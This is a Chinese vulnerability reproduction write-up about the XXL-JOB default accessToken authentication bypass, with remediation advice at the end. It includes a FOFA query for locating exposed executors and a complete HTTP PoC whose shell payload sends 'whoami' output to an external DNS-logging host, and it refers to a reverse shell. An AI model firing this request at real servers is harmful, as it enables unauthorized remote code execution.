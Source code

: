 
# XXL-JOB 默认 accessToken 身份绕过漏洞复现

### 0x01 产品简介

  [XXL-JOB](https://so.csdn.net/so/search?q=XXL-JOB&spm=1001.2101.3001.7020) 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。

### 0x02 漏洞概述

     XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是[随机生成](https://so.csdn.net/so/search?q=%E9%9A%8F%E6%9C%BA%E7%94%9F%E6%88%90&spm=1001.2101.3001.7020)的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。

XXL-JOB 之前版本 accessToken 的值都为空，2.3.1 后才出现默认值，如下：

![](assets/1699250015-cb819a2c5bbd673a302156996bb9daa6.png)

### 0x03 影响范围

     xxl-job-2.3.1、2.4.0 版本

### 0x04 复现环境

FOFA："invalid request, HttpMethod not support" && port="9999"

![](assets/1699250015-427a2cf5d4e589f0d4d17d1e3112487b.png)

### 0x05 漏洞复现 

PoC

```http
POST /run HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default token
Upgrade-Insecure-Requests: 1


{
"jobId": 3,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "SERIAL_EXECUTION",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586373637819,
"glueType": "GLUE_SHELL",
"glueSource": "ping `whoami`.Dnslog.cn",
"glueUpdatetime": 1586693836766,
"broadcastIndex": 0,
"broadcastTotal": 0
}
```

PS：每执行一次就需要更换请求体中 jobId 的值

![](assets/1699250015-c095ecbba83f6761216178013771c2e3.png)

![](assets/1699250015-1f6f84c859bb6e2087fcce24b9c05688.png)

**反弹 shell**

![](assets/1699250015-bb0ff5eaa3874cefab77d779f28a8254.png)![](assets/1699250015-17e293d816555990ddb76bf29461868f.png)

### 0x06 修复建议

**官方修复方案**：

修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值：  
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89

使用 accessToken 时设置强 accessToken 或随机 accessToken 。

**临时修复方案：**  
- 使用防护类设备对相关资产进行防护；  
- 避免将 XXL-JOB 的执行器暴露在互联网。
